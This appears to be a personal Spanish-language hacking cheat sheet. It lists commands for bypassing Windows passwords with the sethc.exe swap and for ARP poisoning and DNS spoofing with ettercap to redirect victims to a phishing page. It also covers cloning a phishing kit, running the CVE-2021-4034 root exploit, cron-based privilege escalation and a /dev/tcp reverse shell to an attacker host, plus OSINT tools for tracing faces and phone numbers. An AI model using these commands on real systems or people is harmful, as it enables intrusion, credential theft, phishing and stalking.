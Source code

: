 YO<h1 style="text-align:center;font-size:40px;">LINUX FH</h1>

## Soluciones

### Recuperar contraseña windows

#### desde LINUX

```sh
vim /etc/fstab

/dev/sda1 /mnt/windows ntfs ro,umask=0222,defaults 0 0
```

#### Windows CD

```ps1
C:\windows\system32\osk.exe o sethc.exe = cmd.exe (copia)
```

> SHIFT x5 / teclado

```ps1
control userpasswords2

net user -- net user administrator *
```

#### CHNTPW

[chntpw](https://www.howtogeek.com/howto/14369/change-or-reset-windows-password-from-a-ubuntu-live-cd/)

## Ejecutar como administrador en linux

> en caso de que no funcione su - / sudo para editar:
> `pkexec` ← pide password desde el entorno grafico

## HK [ MAC / NETWORK SCANNER / NET CUT ]

### SCAPY

SI NO FUNCIONA

```sh
apt install pip
pip install scapy
sudo mkdir /usr/lib/python2.7/dist-packages/scapy
cd /usr/lib/python3/dist-packages/
cp -avr scapy/* /usr/lib/python2.7/dist-packages/scapy
```

### HABILITAR REENVIO AL CAMBIAR MAC OTRO PC (spoofer)

```sh
echo 1 /proc/sys/net/ipv4/ip_forward
```

### REESTABLECER TABLAS IP

```sh
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

### ettercap

```sh
apt install ettercap-ettercap-graphical
```

> Añadir victica Target 1 - Puerta de enlace Target 2
> ARP poisoning…
> Pluging
> 
> > dns_spoof

### REDIRIGIR

```sh
/etc/ettercap/etther.dns # configuracion dns etthercap
```

```sh
*.example.*		A	[IP LOCAL] # redireccionar
REDIRIGIR c/ APACHE
apt install apache2
/var/www/html/index.html```
```

![](https://i.imgur.com/Rk7nlIr.png)

```sh
git clone https://github.com/DeepSociety/AIOPhish
```

## Cambiar passwd ROOT

> grub
> advanced options for X
> recovery mode	“e”
> linix … ro single init=/bin/bash

## Modificar [grub](https://drive.google.com/drive/folders/1G_pFqJbG9hLI9BOZ9hTaXKn__jJdg81m)

```sh
/boot/grub/grub.cfg
```

## vulnerabilidad root

```sh
git clone https://github.com/berdav/CVE-2021-4034
make
./cve-2021-4034
```

## Mejorar terminal 

```sh
python -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl + Z para segundo plano
stty raw -echo;fg;ls; export SHELL=/bin/bash;export TERM=screen # traer tarea
```

### Escalar

> enviar netcat de un proceso en cron como root

```sh
#1
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

```sh
/tmp/rootbash -p
```

```sh
#2
"bash -i >& /dev/tcp/{ATACANTE}/4444 0>&1 "
```

## OSINT

### Fotos 

[Pimeyes](https://pimeyes.com/)

### Telefonos

#### Phoneinfoga

```sh
curl -sSL https://raw.githubusercontent.com/sundowndev/phoneinfoga/master/support/scripts/install | bash
sudo install ./phoneinfoga /usr/local/bin/phoneinfoga
phoneinfoga version
phoneinfoga serve -p 81
```